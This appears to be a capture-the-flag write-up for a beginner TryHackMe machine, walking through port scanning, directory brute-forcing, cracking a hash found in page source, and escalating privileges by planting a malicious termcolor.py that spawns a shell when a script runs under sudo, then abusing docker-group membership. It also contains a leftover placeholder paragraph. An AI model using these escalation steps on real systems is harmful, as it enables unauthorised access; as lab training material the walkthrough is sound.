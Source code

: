 # Sibyl System: THM CTF

![date](https://img.shields.io/badge/date-02.07.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![linux category](https://img.shields.io/badge/category-linux-lightgrey.svg)
![score](https://img.shields.io/badge/score-200+-blue.svg)
![solves](https://img.shields.io/badge/solves-1+-brightgreen.svg)

## Description
The theme of the room is based on an Anime named Psycho Pass.
There are two flags in the machine!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

If you face any problem, contact [b31ngd3v](mailto:b31ngd3v@gmail.com)

## Before we start
Make sure -
1. You're connected to the vpn. **```(Important)```**
2. Your adblocker is disabled. [uBlock Origin, adblocker etc.] **```(Important)``` (or the site will not load.)**
3. You're using Chrome browser. **```(Highly Recommended)``` (for better experience)**


## Enumeration
> Q : Scan the machine, how many ports are open?

Open up your terminal and fire up nmap. Run nmap with ```nmap -sC -sV -oA nmap/ss 10.10.226.130```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/image.png?raw=true "nmap result")

Hmm, looks like the http server is running. We should check what is there.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-17-23.png?raw=true "port 80")

> Q : What is the hidden directory?

I'm going to use gobuster to discover the hidden directory. Run ```gobuster dir -u http://10.10.226.130/ -w directory-list-2.3-medium.txt --no-error```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-22-41.png?raw=true "gobuster result")
![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-26-55.png?raw=true "hidden directory")

I tried to login with admin:admin but it failed. Then I tried to intercept requests, but It doesn't sending any requests to verify given credentials.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-27-38.png?raw=true "login")

After inspecting the Login button, I found a function named login.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-28-12.png?raw=true "login")

I searched the function in the html file, and found the function along with username and hashed password.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-30-15.png?raw=true "login")

> Q : What is the password?

The hashed password was easy to crack. I just headed over to crackstation and submited the hash and it returned the password in plain text.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-31-42.png?raw=true "crackstation")

## Capture The Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-53-58.png?raw=true "dash")

Now we are logged in as chief. Let's check what permissions we have with ```sudo -l```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-56-04.png?raw=true "permissions")

Note. (ALL, !root) this looks suspicious, there is a chance that sudo is vulnerable. We'll check it soon.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-28-51.png?raw=true "users")

Sibyl System has two users, chief and b31ngd3v. Let's check if we somthing in the home directory of this user.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-55-24.png?raw=true "home")

Yes, we have a python file named `clickjacking-tester.py`. We only have read permission so we can't write init.

```
# Contributor(s): nigella (@nig)

from urllib.request import urlopen
from sys import argv, exit
from termcolor import cprint

__author__ = 'D4Vinci'

def check(url):
    ''' check given URL is vulnerable or not '''

    try:
        if 'http' not in url: url = 'http://' + url

        data = urlopen(url)
        headers = data.info()

        if not 'X-Frame-Options' in headers: return True

    except: return False


def create_poc(url):
    ''' create HTML page of given URL '''

    code = '''
<html>
   <head><title>Clickjack test page</title></head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src='{}' width='500' height='500'></iframe>
   </body>
</html>
    '''.format(url)

    with open(url + '.html', 'w') as f:
        f.write(code)
        f.close()


def main():
    ''' Everything comes together '''

    try: sites = open(argv[1], 'r').readlines()
    except: cprint('[*] Usage: python(3) clickjacking_tester.py <file_name>', 'magenta'); exit(0)

    for site in sites[0:]:
        cprint('\n[*] Checking ' + site, 'blue')
        status = check(site)

        if status:
            cprint(' [+] Website is vulnerable!', 'green')
            create_poc(site.split('\n')[0])
            cprint(' [*] Created a poc and saved to <URL>.html', 'green')

        elif not status: cprint(' [-] Website is not vulnerable!', 'blue')
        else: cprint('Every single thing is crashed, Python got mad, dude wtf you just did?', 'magenta')

if __name__ == '__main__': main()```

## Detailed solution
Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation *ullamco laboris* nisi ut aliquip ex ea commodo consequat.
```

Telecolor in not a default package in python, so if we crate a file names termcolor.py in the same directory python will run our file instade of the package files. Let's try this.

```echo "import os;os.system('/bin/bash')" > /home/chief/termcolor.py```

Now run the `clickjacking-tester.py` file as b31ngd3v

```sudo -u b31ngd3v python3 /home/chief/clickjacking-tester.py```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-59-26.png?raw=true "success")

> Q : User Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-00-34.png?raw=true "user.txt")

Now we'll check if sudo is vulnerable or not. (I'm taking about CVE-2019-14287)

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-56-29.png?raw=true "CVE-2019-14287 check")

No, the sudo is not vulnerable. Now let's check if user b31ngd3v is a member of any group or not.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-03-12.png?raw=true "id")

Yes, we are a member of docker group. Now head over to gtfobins and search for docker.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-03-45.png?raw=true "gtfobins")

Copy and paste the following line.

> Q : Root Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-05-28.png?raw=true "sudo access")


## Success

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/ezgif-2-76bb9beda24d.gif?raw=true "hacking statue of liberty")
